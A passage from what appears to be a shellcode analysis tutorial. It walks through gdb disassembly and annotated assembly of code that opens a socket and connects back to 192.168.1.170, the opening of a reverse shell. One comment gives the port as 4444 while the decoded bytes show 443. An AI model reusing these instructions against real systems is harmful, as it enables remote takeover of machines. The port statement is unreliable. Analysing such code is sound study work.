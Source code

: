 ```nasm

; invoke sys_socket
syscall 

; if sys_socket fails (returning -1) then jump to 0x4000e5 (sys_exit)
test   rax,rax
js     0x4000e5
```

These instructions can be converted the following C code:

```cpp
RAX = socket(
  2,            // AF_INET
  1,            // SOCK_STREAM
  0,            // IP protocol
);

if (RAX < 0)
{
  exit(1);
}
```

Once the shellcode has created the socket, the next operations should be connecting to the remote server:

```bash
(gdb) disassemble $rip,+24
# Dump of assembler code from 0x4000aa to 0x4000c2:
# => 0x00000000004000aa:  xchg   rdi,rax
#    0x00000000004000ac:  movabs rcx,0xaa01a8c0bb010002
#    0x00000000004000b6:  push   rcx
#    0x00000000004000b7:  mov    rsi,rsp
#    0x00000000004000ba:  push   0x10
#    0x00000000004000bc:  pop    rdx
#    0x00000000004000bd:  push   0x2a
#    0x00000000004000bf:  pop    rax
#    0x00000000004000c0:  syscall
```

Let's analyze these instructions:

```nasm
; copy the value of RAX (fd returned by sys_socket) into RDI
xchg   rdi,rax

; sockaddr struct containing IP address and
;   TCP port for the connection (192.168.1.170:4444)
; 0xaa -> 170
; 0x01 -> 1
; 0xa8 -> 168
; 0xc0 -> 192
; 0x01bb -> 443
; 0x0002 -> AF_INET
movabs rcx,0xaa01a8c0bb010002

; store the pointer to the sockaddr struct into RSP (stack pointer)
push   rcx
mov    rsi,rsp

; set RDX to the value 0x10
push   0x10
pop    rdx

; set RAX to the calue 0x2a (syscall sys_connect)
push   0x2a
```